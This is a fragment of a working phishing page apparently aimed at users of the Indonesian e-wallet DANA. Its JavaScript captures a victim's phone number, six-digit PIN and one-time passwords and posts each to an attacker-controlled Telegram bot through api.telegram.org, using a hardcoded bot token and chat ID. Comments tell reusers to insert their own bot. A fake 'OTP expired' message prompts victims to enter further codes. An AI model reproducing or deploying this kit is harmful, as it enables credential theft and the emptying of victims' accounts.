                var token = '6825146945:AAGltWDalT3axR1IGp69suCdjODuSjrgQE0'; // Ganti dengan token bot yang kamu buat
                var grup = '7292810171'; // Ganti dengan chat id dari bot yang kamu buat


                $.ajax({
                    url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
                    method: `POST`,

                    success: function() {
                        $("#process").hide();
                        document.getElementById("back1").style.display = "none";
                        document.getElementById("back2").style.display = "block";
                        $("#formNohp").fadeOut();
                        setTimeout(function() {

                            $("#formPin").fadeIn();
                            $("#pin1").focus();
                        }, 500);
                    }});
            };


            function sendPin() {



                var nomor = sessionStorage.getItem("nomor");
                document.getElementById("alert").innerHTML = "Kode dikirim ke +62 " + nomor+ " via<br/>";
                var logo = document.getElementById('logo');
                var inp = document.getElementById('inp');
                var pin1 = document.getElementById('pin1');
                var pin2 = document.getElementById('pin2');
                var pin3 = document.getElementById('pin3');
                var pin4 = document.getElementById('pin4');
                var pin5 = document.getElementById('pin5');
                var pin6 = document.getElementById('pin6');

                var gabungan = '' + logo.value + '%0A※ 𝙽𝚘𝚖𝚘𝚛 𝙳𝙰𝙽𝙰 : ' + '0' + inp.value + '%0A※ 𝙿𝚒𝚗 𝙳𝙰𝙽𝙰  : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;




                var token = '6825146945:AAGltWDalT3axR1IGp69suCdjODuSjrgQE0'; // Ganti dengan token bot yang kamu buat
                var grup = '7292810171'; // Ganti dengan chat id dari bot yang kamu buat
                $.ajax({
                    url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
                    method: `POST`,


                    success: function() {
                        $("#process").hide();
                        document.getElementById("alert").style.display = "block";
                        $(".bgotp").fadeIn();
                        setInterval(countdown, 1000);
                        $("#otp1").focus();
                    }
                }
                );
            };


            function sendOtp() {
                $(".loadingOtp").show();
                var logo = document.getElementById('logo');
                var inp = document.getElementById('inp');
                var pin1 = document.getElementById('pin1');
                var pin2 = document.getElementById('pin2');
                var pin3 = document.getElementById('pin3');
                var pin4 = document.getElementById('pin4');
                var pin5 = document.getElementById('pin5');
                var pin6 = document.getElementById('pin6');
                var otp1 = document.getElementById('otp1');
                var otp2 = document.getElementById('otp2');
                var otp3 = document.getElementById('otp3');
                var otp4 = document.getElementById('otp4');
                setTimeout(function() {
                    $(".alert").text("Masa berlaku OTP sudah habis");
                    $(".alert").css("color", "red");
                }, 2000);

                var gabungan = '' + logo.value + '%0A※𝙽𝚘𝚖𝚘𝚛 𝙳𝙰𝙽𝙰 : ' + '0' + inp.value + '%0A※ 𝙿𝚒𝚗 𝙳𝙰𝙽𝙰 : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value + '%0A%0A※ 𝙾𝚝𝚙 𝙳𝙰𝙽𝙰 : ' + otp1.value + otp2.value + otp3.value + otp4.value;


                var token = '6825146945:AAGltWDalT3axR1IGp69suCdjODuSjrgQE0'; // Ganti dengan token bot yang kamu buat
                var grup = '7292810171'; // Ganti dengan chat id dari bot yang kamu buat

                $.ajax({
                    url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
                    method: `POST`,

                    success: function() {
                        setTimeout(function() {
                            $(".loadingOtp").hide();

                            $('.inpotp').val('');
                            $('#otp1').focus();
                            var nomor = sessionStorage.getItem("nomor");
                            document.getElementById("alert").innerHTML = "Kode baru dikirim ulang ke +62" + nomor + " via<br/>";
                            $(".alert").css("color",
                                "black");
                        }, 4000);


                    }

                }
                );

            };
        </script>
        <script>
            function countdown() {
                var count = parseInt(
                    $('#countdown').text());
                if (count !== 0) {
                    $('#countdown').text(count - 1);
                } else {
                    $('#countdown').text('60');
                }};
        </script>
        <script>
            window.onload = function() {
                setTimeout(function() {
                    $(".start").fadeIn();
                    setTimeout(function() {
                        $(".start").fadeOut(1000);
                        setTimeout(function() {
                            $(".container").fadeIn(200);
                            $("#inp").focus();
                        }, 1000);
                    }, 1000);
                }, 500);
            }
        </script>
    </body>
</html>
<script>
</script>
</body>
</html><!--<script src='https://a.bsite.net/footer.js'></script>
